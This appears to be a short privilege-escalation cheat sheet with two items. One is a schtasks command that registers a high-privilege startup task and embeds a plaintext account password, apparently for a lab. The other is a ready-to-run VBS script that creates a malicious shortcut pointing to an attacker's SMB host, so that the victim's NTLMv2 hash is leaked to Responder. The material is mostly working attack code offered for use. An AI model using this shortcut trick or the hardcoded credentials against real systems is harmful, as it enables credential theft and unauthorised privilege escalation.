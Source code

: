 # Additional PrivEsc





# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

---

NTLM RELAYING

save the following as "mail_link.vbs", run it - it creates a malicious link that authenticates to responder sending its NTLMv2 hash.

```vbs
Set objShell = WScript.CreateObject("WScript.Shell")
Set lnk = objShell.CreateShortcut("evil_link.lnk")
lnk.TargetPath = "\\10.0.0.5\icon.ico" 	
lnk.Arguments = "" 		
lnk.Description = "" 	
lnk.IconLocation = "\\10.0.0.5\icon.ico" 
lnk.WorkingDirectory = "" 
lnk.Save
```

<https://github.com/AkuCyberSec/firefox-ntlm-hash-capture-via-lnk-download>
